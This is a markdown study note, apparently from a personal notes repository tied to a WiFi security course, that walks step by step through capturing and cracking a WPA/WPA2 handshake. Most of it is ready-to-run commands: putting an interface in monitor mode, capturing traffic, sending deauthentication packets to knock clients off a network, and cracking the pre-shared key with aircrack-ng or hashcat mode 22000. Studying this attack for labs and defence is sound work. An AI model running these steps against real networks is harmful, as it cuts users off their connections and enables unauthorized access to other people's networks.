

# Attacking the WPA/WPA2 Handshake
In the [WPA/WPA2 Authentication](../../networking/wifi/WPA-WPA2.md#Authentication), the first two messages can be used to brute-force the `PSK`.
## Attack Steps
#### 1. Put the interface in monitor mode
```bash
sudo airmon-ng start wlan0
```
#### 2. Capture traffic
The goal in capturing traffic is to capture the handshake between the target AP and a connecting client. *Make sure to save the output to a capture file*:
```bash
sudo airodump-ng wlan0mon -c <CHANNEL> -w ./capture
```
#### 2.1 Force traffic
Once you're capturing, you can either wait for a client to connect organically, or force them to connect by *sending deauthentication packets* (which will disconnect them from whatever networks they're attached to, causing them to reauthenticate to you).
```bash
sudo aireplay-ng -0 10 -a <BSSID> -c <ClientMAC> wlan0mon
```
- `-a`: The `BSSID` of the AP your target client is currently connected to
- `-c`: The MAC address of the client you want to connect to your rogue device (who is currently connected to the AP with the `BSSID` listed for `-a`)
#### 3. Crack the password
Once you've confirmed that the client has connected to your rogue AP and you've captured a handshake, you can use `aircrack-ng` along with a wordlist to crack the `PSK`:
```bash
sudo aircrack-ng -w /path/to/dictionary.txt capture-01.cap
```
#### 3.1 Use hashcat instead of `aircrack-ng`
`aircrack-ng` is very slow for cracking compared to [hashcat](../../cybersecurity/TTPs/cracking/tools/hashcat.md) because it only uses the computer's [cpu](../../computers/concepts/cpu.md). But to use hashcat, the the handshake *needs to exported to a compatible format*.
##### 3.1.a Convert `.cap` to hashcattable format
Currently, hashcat uses mode `22000` to crack this kind of handshake, so we need to convert our handshake to a format that `22000` supports. We can do that with `hcxpcapngtool`:
```bash
hcxpcapngtool capture-01.cap -o hash.22000
```
##### 3.1.b Crack with hashcat
Once you have the file in the correct format, give it to hashcat and use mode 22000 with a wordlist to crack the password:
```bash
sudo hashcat -a 0 -m 22000 hash.22000 ~/rockyou.txt
```
The output should look something like this if it worked:


> [!Note]
> The old handshake format used to be `-m 2500` but after hashcat version 6.0.0, there is no option to crack with mode 2500
> 
> If you have a handshake in the 2500 format, you can convert it with the following command:
> `hcxhash2cap --hccapx=hostapd.hccapx -c aux.pcap`
>
> Then you need to export it to 22000 like we did above:
> `hcxpcapngtool aux.pcpa -o hash.22000`

> [!Resources]
> - [Wifi Challenge Academy](https://academy.wifichallenge.com/courses/take/certified-wifichallenge-professional-cwp/texts/57442980-introduction)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.